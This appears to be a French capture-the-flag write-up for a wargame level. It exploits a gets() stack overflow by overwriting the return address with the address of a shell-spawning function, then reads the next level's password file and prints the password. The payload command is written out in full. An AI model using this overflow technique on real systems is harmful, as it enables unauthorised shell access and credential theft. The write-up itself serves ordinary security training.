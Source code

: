 # LEVEL 1

### Intro

on constate en regardant ghidra que la fonction run execute un shell, donc notre objectif sera de detourner le prograame pour qu il execute run
On constate aussi que le main cree un tableau de 76 octet et lie le stdin avec gets donc on peut ecraser pour rediriger la stack vers l addresse de run
grace a ghidra on sait que l addresse de run est 08048444

![alt text](image.png)

----
Dans notre cas voici la construction de la pile :

![alt text](image-1.png)

### construction du payload : 

Il suffit avec python de generer 76 charactere pour depasser le tampon + 4 octet pour depasser EBP ainsi que 4 autres octets pour ecraser le retour du main comme montrer si desssus
En little endien l addresse de run est donc \x44\x84\x04\x08


```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
cat /tmp/exploit.txt - | ./level1

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```